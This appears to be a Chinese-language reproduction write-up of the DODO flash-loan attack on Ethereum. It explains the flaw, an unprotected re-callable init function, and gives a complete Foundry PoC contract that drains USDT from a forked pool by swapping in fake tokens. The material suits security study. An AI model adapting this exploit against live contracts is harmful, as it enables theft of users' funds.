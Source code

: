 # DODO攻击复现

## 1.参考资料：

交易hash分析：

https://phalcon.xyz/tx/eth/0x395675b56370a9f5fe8b32badfa80043f5291443bd6c8273900476880fb5221e

文章：

[DODO攻击事件分析-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/234657)

## 2.漏洞成因

这个成因比较简单，是因为init函数外部可调用，同时没有仅执行一次的限制

![image-20230409201441840](dodo.assets/image-20230409201441840.png)

攻击过程：

1.攻击者获取合约里两种代币的数量，提前转入了相同数量两种的fake代币：

![image-20230409201801103](dodo.assets/image-20230409201801103.png)

2.攻击者执行闪电贷，贷出池子里的代币之后，调用init函数重置了池子里边的两个token地址：

![image-20230409201931021](dodo.assets/image-20230409201931021.png)

3.回到漏洞合约，这时获取到的token地址已经变成了fake token的地址，由于提前转入fake代币，且数量一致，这里的require也不会报错，攻击成功

![image-20230409202322040](dodo.assets/image-20230409202322040.png)

## 3.POC合约

当前forge版本可以复现，将下列代码复制到Counter.t.sol里边即可

forge test -vvvv --fork-url <your own RPC> --fork-block-number 12000163

```solidity
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Counter.sol";

interface IDODO {
    function init(
        address maintainer,
        address baseTokenAddress,
        address quoteTokenAddress,
        uint256 lpFeeRate,
        address mtFeeRateModel,
        uint256 i,
        uint256 k,
        bool isOpenTWAP
    ) external;

    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address assetTo,
        bytes calldata data
    ) external;

    function getVaultReserve() external view returns (uint256, uint256);
    
    function _BASE_TOKEN_() external view returns (address);
}

interface USDT{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}

interface FAKEA{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}

interface FAKEB{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}


contract ContractTest is Test{
    function setUp() public {

    }

    event Log(uint256 _val);

    //被攻击池子与被攻击代币
    address pool = address(0x051EBD717311350f1684f89335bed4ABd083a2b6);
    address ppol2 = address(0x2BBD66fC4898242BDBD2583BBe1d76E8b8f71445);
    address tokenA = address(0xa0afAA285Ce85974c3C881256cB7F225e3A1178a);
    address tokenB = address(0xdAC17F958D2ee523a2206206994597C13D831ec7);


    address binanceA=address(0xD551234Ae421e3BCBA99A0Da6d736074f22192FF);
    address fakeA=address(0x3883f5e181fccaF8410FA61e12b59BAd963fb645);
    address fakeB=address(0xf2dF8794f8F99f1Ba4D8aDc468EbfF2e47Cd7010);
    uint256 fakeA_num;
    uint256 fakeB_num;


    FAKEA fakea = FAKEA(fakeA);
    FAKEB fakeb = FAKEB(fakeB);
    USDT usdt = USDT(tokenB);

    function testA() external  {

        (fakeA_num,fakeB_num) = IDODO(pool).getVaultReserve();

        console.log("before usdt_num:", usdt.balanceOf(address(this)));

        uint256 tokena_num = FAKEB(tokenA).balanceOf(address(pool));
        uint256 usdt_num = usdt.balanceOf(address(pool));

        vm.prank(0xD551234Ae421e3BCBA99A0Da6d736074f22192FF);
        fakea.transfer(address(pool),fakeA_num);
        vm.prank(0x368A6558255bCCaC517da5106647d8182C571b23);
        fakeb.transfer(address(pool),fakeB_num);

        bytes memory data = abi.encode(pool, tokenA, tokena_num* 9 / 10 );
        IDODO(pool).flashLoan(tokena_num * 9 / 10 , usdt_num * 9 /10 , address(this), data); 
    }

    //Note: CallBack function executed by DODOV2(DVM) flashLoan pool --DVM池回调
    function DVMFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount,bytes calldata data) external {
        _flashLoanCallBack(sender,baseAmount,quoteAmount,data);
    }

    //Note: CallBack function executed by DODOV2(DPP) flashLoan pool --DPP池回调
    function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external {
        _flashLoanCallBack(sender,baseAmount,quoteAmount,data);
    }

    //Note: CallBack function executed by DODOV2(DSP) flashLoan pool --DSP池回调
    function DSPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external {
        _flashLoanCallBack(sender,baseAmount,quoteAmount,data);
    }


    function _flashLoanCallBack(address sender, uint256, uint256, bytes calldata data) internal {
        (address flashLoanPool, address loanToken, uint256 loanAmount) = abi.decode(data, (address, address, uint256));
        
        require(sender == address(this) && msg.sender == flashLoanPool, "HANDLE_FLASH_NENIED");

        address addr1= address(0xaac153c1344cA14497A5dd22b1F70C28793625aa);
        address addr2 = address(0x5e84190a270333aCe5B9202a3F4ceBf11b81bB01);
        IDODO(pool).init(addr1,fakeA,fakeB,3000000000000000,addr2,1,1000000000000000000,false);

        console.log("after usdt_num:", usdt.balanceOf(address(this)));
    }
}
```

## 4.复现结果

​	可以看到攻击合约的USDT余额从0变成了103W（为了确保成功，没有将USDT全部贷出来），以太坊上边的USDT代币精度是6位小数，不是18，所以这个数字是正确的，之前因为这个精度问题困扰了我一段时间。

![image-20230409200502151](dodo.assets/image-20230409200502151.png)

![image-20230409200747015](dodo.assets/image-20230409200747015.png)




